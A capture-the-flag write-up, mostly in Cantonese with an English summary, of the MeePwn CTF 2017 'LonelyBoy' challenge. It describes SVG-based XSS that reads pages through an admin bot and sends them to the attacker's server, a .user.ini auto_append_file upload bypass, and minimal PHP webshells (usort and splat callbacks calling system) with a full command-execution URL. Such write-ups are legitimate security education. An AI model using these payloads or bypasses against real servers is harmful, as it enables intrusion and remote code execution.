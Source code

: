 # MeePwn CTF 2017: LonelyBoy

### (crypto, 1000 points, 1 team solved)

說明
>I saw the website of a lonely boy out there, it looks like he wants to be cheered up, can you help him?
>
> Flag is in /
>
> Remote: 188.166.242.140

奇怪的通知

📢 Notice: We use phantomjs to evaluate your submitted url

孤獨的提示

💡 Hint 1: Wow .SaVaGe , nobody care about him... please come to tsu home, tsu want to make friend at his HOME!

💡 Hint 2: POST is so complex, better go to his HOME with GET

💡 Hint 3: Hey FRIEND! Information Gathering is important :)

💡 Hint 4: Well, its not a common php, another php :D

💡 Hint 5: u.....sort! sort! sort!, splat! splat! splat!.... some animals voice around his house..., try to rce :D


## 題解
呢題 No one plays. 真係夠晒 Lonely. 一開始個 Flag is in / 真係好誤導. 整到咁多 part 又係老點.

求其註冊登入之後有個位可以 upload 相. 

~~求其 upload 個 [1.jpg](http://static.zerochan.net/Ten.Count.full.1930214.jpg) 上去睇下結果話 file too large.~~

話說 upload 個扮係 jpg 既 txt 係會 block 9 你. 見到可以 upload svg 明眼人一睇就知係玩 XSS. 個 svg 你想寫乜都得.

隊個 Cookie stealer 冇反應. 之後我去 IRC 問個作者你個 bot 係咪壞輪左. 佢話好正常你再試下. 可能係個 bot 唔認 svg 係網頁.

因為佢有 check 個 file 是咪 from 佢個 website. 試下試下發現吊佢剩係 check 個 url 有冇 ht​tp://188.166.242.140/

即係 ht​tp://example.com/x.php?ht​tp://188.166.242.140/ 佢係識讀.

之後響自己個網度放個 iframe 連返去佢個網個 svg 又得. 

點解要搞咁多野連返去佢個網係因為有 CORS. 個 svg 響佢個網度就可以為所欲為 好似係

之後用個 xhr 讀下 admin login 狀態下 d page. 點知讀唔到. 唔知咩事. 

之後搞一大輪試下試下發現佢個 bot 成日 timeout. 所以我加個 loop 讀下我個網睇下佢幾時先 timeout.出事. 

點知佢唔識 timeout. 炸我 server 炸左半粒鐘. 我自己又硬膠膠唔 timeout. 佢又唔 timeout. 大家攬炒. 

我之後去 IRC 同佢話你個 bot 炸鳩緊我. 佢之後話 reset 左. 我再睇 log 發現佢係重 send 緊 request. 說好的 reset 呢.

大家睇到呢度係咪開始唔想睇呢. 之後我真係讀到 admin 狀態下既 files.php 啦. 點知條友仔半個 file 都冇 upload. 

之後睇返佢堆孤獨的提示. 佢果陣出到第一個提示 話咩 go HOME. 係咪去 /home 啊頂你你又話 Flag is in / 想點. 

之後發現個 homepage 叫 home.php. 讀下佢個 home.php 發現佢多左個咩 email_address_of_tsu_friend.

哇唔通你想玩 phantomjs 幫你 sql injection 定 mail(). 大佬真係隔山打牛. 

之後叫個 bot run ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=真email. 點知真係收唔到 email.

我去 IRC 問下條友 問佢你個 mail function 係咪壞能左. 佢叫我打返註冊用個 email 就算喎. 

頂你正常入個 username 算啦入乜鬼 email. 搞一大輪唔知點解變左做 friend. 之後多左個 upload box.

今次個 upload box 據聞可以 upload 任何野. 咁第一時間梗係 upload php. 吊啦 block 9 我. 咁 php 唔得試下 pht. 又唔能得. 

咁試下 phd. 得左. 但係 phd 係冇用既 (好似係). 因為 run 唔 lun 到. 

咁試下 upload .htaccess 加個 MIME type. 又 block 9 ht. 乜能都做唔到. 

之後打多過 20 個字又鬧我. 試試下打左個 Exec 響入面又話 Malicious! 吊啦. 

之後 **唔知點樣試到** .user.ini 可以加 d setting. 加個 auto_append_file=z 拿佢限 20 個字 auto_append_file=.svg 21個字. 吊佢.

因為你有 setting 冇 php 都冇能用. 然後 **唔知點解搵到** index.php 竟然係用 php. 

正常人應該用 index.htm 或者 index.html 啦. 又唔係要動用咩 server-side script. 

咁你 upload 多個 z 入面係 `<?=phpinfo();` 就有野睇.

---
呢段開始先仆街. 

佢個 upload 除左 block exec 之外重 block 好能多野. 咩 eval system passthru. 

試試下 include 冇事. 咁好正路 upload 返個 svg include 佢搞掂.

list 到個 / 入面有個 goodjobnowgetyoursfl4g 咁試下 cat 佢. 冇料到. 即係 directory.

之後想 list /goodjobnowgetyoursfl4g 果下先仆街. 無端端話 Malicious!

個作者響 IRC 話 block 漏 include 同 require. 吊你想點啊. 佢話之後會再出提示點玩喎. 你玩晒啦.

結果 on99 咁睇個 php manual 搵下 d 短名 function. 有個叫 dl 都唔知點能用. 

之後發現佢冇 block popen. 不過玩 popen 又要 reverse shell 好能煩.

---
搞下搞下之後佢出第五個提示話咩 usort splat. 吊又係用 d 濕鳩 callback. 咁用 usort 囉. 

至於 splat 係乜野? 佢係將個 array 爆做 argument 既奇怪 operator. 即係 python 入面 **kwargs d friend. 

因為你想用 querystring 塞野既話 你要用 $_GET[0], $_GET[x] 之類. 想塞兩舊就已經用好多字.

用 splat 就係 ...$_GET, 塞幾多都得. 最後個 file 係 `<?=usort(...$_GET);`

正常 usort 係會將 第一個 argument ($_GET[0]) 個 array 做 sorting. 如果有 callback 就係第 k 同 k+1 個 element 放去個 callback 度:

`usort(...$_GET)` ==> `$_GET[1]($_GET[0][0],$_GET[0][1]); $_GET[1]($_GET[0][1],$_GET[0][2]);` etc.

但係唔知做乜春佢個 server 係 `$_GET[1]($_GET[0][1],$_GET[0][0])`

結果要咁能樣 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=diu&1=print_r

先識 `print_r("diu",0)` (print_r 第二個 argument false 就會直接 echo 出黎. true 就儲去個 variable 度)

之後睇下 system 果堆 function. system 第二個 argument 要係個 variable reference 指返個 output. 

我響我個 server run `system("ls",0)` 係 run 唔能到既. 但係有朋友發現佢果度唔知點解 run 到.

之後就 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=cat%20/goodjobnowgetyoursfl4g/Yes_This_Is_What_You_Are_Looking_FoR_FlagGgGg&1=system

搞一大堆咁能辛苦終於解到.

## 後記
佢個 usort 簡直係老點. 不知所謂. run `system("ls",0)` 就好似 run `0=1` 咁搞笑. usort 個 array 又好似調轉左咁.

做完之後發現有個 function 叫 copy 冇 block 到. 咁 `<?=copy(...$_GET);` 少佢一隻字添. 做多好多野添. 

例如 ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0.svg&0[1]=../yaoi.php

就會出 [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy) (真係 click 到架好似係)

---
# English version
I accidentially found this page and got the flag:

> [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy)

Just kidding.

In short it is "XSS read page + wtf + Webshell" 

<ol>
<li>XSS read page</li>
  <ul>
  <li>upload a file with javascript on the victim server to bypass CORS</li>
    <ul>
    <li>svg is perfect because other image format are checked</li>
    <li>the script includes logics to read home.php and send back to your server</li>
    <li>add some loops to read some pages to prevent the bot from timing out</li>
    </ul>
  <li>upload a page on your own server with <iframe src=that_svg_file> (instead of using <img> or directly query the svg file due to the bot issue)</li>
  <li>ask the bot to query the page with ?ht​tp://188.166.242.140/ at the end to bypass checking</li>
  </ul>

<li>wtf</li>
  <ul>
  <li>when you got the content of home.php, you found weird form with parameter email_address_of_tsu_friend</li>
  <li>ask the bot to query ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=your_email_account</li>
  <li>why you need to fill in your email account in the system? it is a feature maybe. </li>
  </ul>

<li>Webshell</li>
  <ul>
  <li>upload .user.ini with auto_append_file=whatever or auto_prepend_file=whatever. make whatever shorter.</li>
  <li>upload whatever with phpcode like &lt;?=phpinfo();, &lt;?=$_GET[0]('ls /');, &lt;?=usort(...$_GET); or &lt;?=copy(...$_GET);</li>
  <li>go to index.php and add some querystring according to your payload</li>
    <ul>
    <li>give ?0=system to &lt;?=$_GET[0]('ls /');</li>
    <li>give ?0[0]=0&0[1]=ls%20/&1=system to &lt;?=usort(...$_GET);</li>
    </ul>
  <li>do whatever you like</li>
  </ul>
 </ol>
